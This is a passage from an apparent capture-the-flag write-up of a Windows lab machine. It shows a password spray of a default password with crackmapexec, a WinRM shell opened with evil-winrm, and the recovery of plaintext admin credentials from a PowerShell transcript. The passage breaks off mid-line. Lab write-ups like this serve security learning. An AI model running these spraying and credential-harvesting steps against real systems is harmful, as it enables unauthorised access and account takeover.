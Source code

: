 ```
        Password must change Time:      Thu, 14 Sep 30828 04:48:05 CEST
        unknown_2[0..31]...
        user_rid :      0x457
        group_rid:      0x201
        acb_info :      0x00000210
        fields_present: 0x00ffffff
        logon_divs:     168
        bad_password_count:     0x00000000
        logon_count:    0x00000000
        padding1[0..7]...
        logon_hrs[0..21]...
```

This means that 'Welcome123!' is the default password for every new user, First I tried to use it for marko but that did not work. The next step was to try this default Password for all users, which can easily be done using crackmapexec
```
crackmapexec winrm 10.10.10.169 -u userfile -p 'Welcome123!'
```
Which will return the following:
```
WINRM   10.10.10.169    5985    RESOLUTE        [+] MEGABANK\melane:Welcome123! (Pwn3d!)
```
We can use evil-winrm to log in as melanie with this password, thus get a shell on the box and earn the user flag

```
evil-winrm -u melanie -p 'Welcome123!' -i 10.10.10.169

Evil-WinRM shell v2.3

Info: Establising connection to remote endpoint

*Evil-WinRM* PS C:\Users\melanie\Documents>
```

# 0x2 Escalating Privileges

After looking around the Filesystem for a while, I found Powershell transcript in the *C:\pstranscripts\20191203* directory, the user Ryan specified his credentials in a Command and I was able to view them in plaintext

```
*Evil-WinRM* PS C:\pstranscripts\20191203> type PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
**********************
Windows PowerShell transcript start
Start time: 20191203063201
Username: MEGABANK\ryan
RunAs User: MEGABANK\ryan
[...]
**********************
Command start time: 20191203063515
**********************
PS>CommandInvocation(Invoke-Expression): "Invoke-Expression"
>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
```
